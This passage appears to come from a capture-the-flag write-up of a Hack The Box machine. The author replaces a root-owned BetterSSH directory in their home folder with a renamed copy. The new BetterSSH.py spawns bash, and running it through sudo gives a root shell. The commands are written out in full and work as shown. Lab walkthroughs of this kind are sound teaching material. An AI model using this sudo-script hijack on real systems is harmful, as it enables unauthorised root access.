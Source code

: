     
    
    robert@obscure:/home$ ls -ld robert/
    drwxr-xr-x 8 robert robert 4096 May  9 18:47 robert/
    
    robert@obscure:~$ ls -ld BetterSSH
    drwxrwxr-x 2 robert robert 4096 May  9 18:47 BetterSSH
    

To delete a directory, I have to either empty it and run `rmdir`, or run `rm
-rf` on it. Both of these require my getting access to the files in the
directory, which I do no have (they are owned by root). However, to rename
directory A within directory B, all that matters is the permissions of the
directory B, specifically that I have write (`w`) permissions (and enter
permissions (`x`)). But in this case, as robert, I have `rwx`.

In practice, if I try to remove the directory, it fails:

    
    
    robert@obscure:~$ rm -rf BetterSSH/
    rm: cannot remove 'BetterSSH/BetterSSH.py': Permission denied
    

If I just move it, it works fine:

    
    
    robert@obscure:~$ mv BetterSSH{,-old}
    robert@obscure:~$ ls
    BetterSSH-old  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt
    

I used one of my favorite command line shortcuts, where `BetterSSH{,-old}` is
the same as `BetterSSH BetterSSH-old`.

Now I can create a new `BetterSSH` directory, and put my own `BetterSSH.py`
script into it:

    
    
    robert@obscure:~$ mkdir BetterSSH
    robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")'
    #!/usr/bin/env python3
    
    import pty
    
    pty.spawn("bash")
    robert@obscure:~$ echo -e '#!/usr/bin/env python3\n\nimport pty\n\npty.spawn("bash")' > BetterSSH/BetterSSH.py 
    

Now I can run with `sudo` and get a root shell:

    
    
    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    root@obscure:~# 
    

[](/2020/05/09/htb-obscurity.html)

